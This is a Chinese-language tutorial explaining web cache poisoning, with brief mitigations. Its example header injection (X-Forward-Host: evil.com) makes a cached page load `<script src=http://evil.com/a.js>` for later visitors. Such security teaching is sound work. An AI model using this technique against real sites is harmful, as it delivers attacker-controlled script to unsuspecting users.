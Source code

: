 - [Web cache poisoning](#web-cache-poisoning)
  - [原理](#原理)
    - [Web缓存原理](#web缓存原理)
    - [Cache Key](#cache-key)
    - [unkeyed](#unkeyed)
    - [cache poisoning](#cache-poisoning)
  - [修复方案](#修复方案)
  - [参考](#参考)
# Web cache poisoning
## 原理
### Web缓存原理
缓存服务器位于后端服务器和用户之间，它保存（缓存）对特定请求的响应，通常保存一段时间。如果另一个用户随后发送等效请求，则缓存服务器直接将缓存响应的副本直接提供给用户，而无需来自后端的任何交互。通过减少它必须处理的重复请求的数量，这极大地减轻了后端服务器的负载。  
![](pic/2022-09-22-15-28-19.png)  
而一般缓存服务器缓存的内容大多数是一些不需要变化的静态文件，如js文件等等。
如A请求www.test.com/a/a.js后，缓存服务器收到该请求时查看本地是否有该请求的缓存内容，没有的话则转发给后端服务器，然后得到该js文件的响应内容后根据缓存规则对该js的文件的响应内容进行缓存在本地缓存服务器上，当下一次B用户也请求www.test.com/a/a.js时，请求到达缓存服务器，缓存服务器查看本地有该请求的响应内容则缓存服务器直接将上一次缓存的js文件响应返回给B用户而无需再次请求后端服务器。
### Cache Key
而缓存服务器判断前后两个请求是否等效的方式则是通过请求包中的一些参数是否一致，比如请求的url和?后面的参数键值和Host值等等。
如
```http
/?a=1
Host: test.com
UA: chrome
```
```http
/?a=1
Host: test.com
UA: Firefox
```
如果缓存服务器是以查询字符串和Host值进行判断的话，那么这两个请求的响应则是等效的都将由缓存服务器返回相同的内容。
### unkeyed
unkeyed则是请求中不被用来判断是否为等效请求的参数，如上面两个请求的UA头。
### cache poisoning
而cache poisoning产生的原因则就是请求中的unkeyed参数会对响应内容造成变化，导致其缓存的响应内容包含了攻击者可控的内容,导致下一个用户请求时也会得到恶意的缓存内容。
例如后端服务器其实也支持X-Forward-For头，并且X-Forward-For得到的Host优先级要高于Host头。当正常请求
```http
/?a=1
Host: test.com
UA: chrome
```  
响应为
```html
...
<script src=http://test.com/a.js>
...
...
```
其引用的js文件host是从请求的Host中得到，但如果后端其实还支持X-Forward-For头时请求如下请求。
```http
/?a=1
Host: test.com
X-Forward-Host: evil.com
UA: chrome
``` 
则响应为  
```html
...
<script src=http://evil.com/a.js>
...
...
```
可以看到则会引用到恶意服务器上的js文件,而缓存服务器缓存时是根据Host和/?a=1进行缓存的,这就导致该恶意请求的响应缓存时则会将我们插入的`<script src=http://evil.com/a.js>`进行缓存,当下一个用户发送如下请求时
```http
/?a=1
Host: test.com
UA: chrome
```  
得到的响应内容则是我们缓存的恶意内容。
```html
...
<script src=http://evil.com/a.js>
...
...
```
## 修复方案
缓存中毒产生的原因则就是请求中的unkeyed参数会对响应内容造成变化，导致其缓存的响应内容包含了攻击者可控的内容,导致下一个用户请求时也会得到恶意的缓存内容。
1. 完全禁用缓存(不现实)
2. 保证缓存的内容为真正的全静态内容，不是动态生成的响应。
## 参考
https://portswigger.net/web-security/web-cache-poisoning